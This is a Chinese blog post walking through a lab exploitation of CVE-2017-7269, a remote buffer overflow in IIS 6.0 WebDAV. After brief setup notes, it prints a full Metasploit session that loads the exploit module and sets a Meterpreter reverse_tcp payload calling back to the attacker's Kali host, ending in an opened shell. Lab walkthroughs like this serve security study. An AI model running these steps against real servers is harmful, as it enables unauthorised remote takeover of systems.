

# IIS6.0(CVE-2017-7269) 缓冲器溢出 - -Zad- - 博客园

> 原文：[`www.cnblogs.com/kuaile1314/p/11489707.html`](https://www.cnblogs.com/kuaile1314/p/11489707.html)

漏洞描述
开启 WebDAV 服务对 IIS 6.0 存在缓冲区溢出漏洞都可以导致远程代码执行，所以对于目前的 IIS 6.0 用户而言，可用的变通方案就是关闭 WebDAV 服务。

漏洞编号
CVE-2017-7269

漏洞等级
高危

影响产品
Microsoft Windows Server 2003 R2 开启 WebDAV 服务的 IIS6.0

漏洞环境搭建
我的环境是 windows 2003 R2 Enterprise Edition，安装好 IIS 6.0 之后进入服务管理，在管理器中，有一个 windows 拓展，拓展中有一个 webdav 选项，该选项默认时禁止状态，右键选择允许就可以了。

随后 windows+R–>services.msc–>打开 webcClient 服务，完成配置

漏洞测试
攻击机：kali IP ：192.168.48.131
受害机：windows2003 IP ：192.168.48.146
下载 exploit：https://github.com/Al1ex/CVE-2017-7269
将 exp 放到
/usr/share/metasploitframework/modules/exploits/windows/iis 目录下

msf > search cve-2017-7269

Matching Modules
================

Name Disclosure Date Rank Description
---- --------------- ---- -----------
exploit/windows/iis/cve-2017-7269 2017-03-31 good CVE-2017-7269 Microsoft IIS WebDav ScStoragePathFromUrl Overflow
exploit/windows/iis/iis_webdav_scstoragepathfromurl 2017-03-26 manual Microsoft IIS WebDav ScStoragePathFromUrl Overflow

msf > use exploit/windows/iis/cve-2017-7269
msf exploit(windows/iis/cve-2017-7269) > show options

Module options (exploit/windows/iis/cve-2017-7269):

Name Current Setting Required Description
---- --------------- -------- -----------
HttpHost localhost yes http host for target
PhysicalPathLength 19 yes length of physical path for target(include backslash)
RHOST yes The target address
RPORT 80 yes The target port (TCP)

Exploit target:

Id Name
-- ----
0 Microsoft Windows Server 2003 R2

msf exploit(windows/iis/cve-2017-7269) > set RHOST 192.168.48.146 //设置对方 ip
RHOST => 192.168.48.146
msf exploit(windows/iis/cve-2017-7269) > set HttpHost 192.168.48.146 //设置对方网站
HttpHost => 192.168.48.146
msf exploit(windows/iis/cve-2017-7269) > set payload windows/meterpreter/reverse_tcp //设置返回载荷
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/iis/cve-2017-7269) > set LHOST 192.168.48.131 //设置本机 ip
LHOST => 192.168.48.131
msf exploit(windows/iis/cve-2017-7269) > exploit //溢出

[*] Started reverse TCP handler on 192.168.48.131:4444
[*] Sending stage (179779 bytes) to 192.168.48.146
[*] Meterpreter session 1 opened (192.168.48.131:4444 -> 192.168.48.146:1043) at 2018-01-24 22:49:23 +0800

meterpreter >

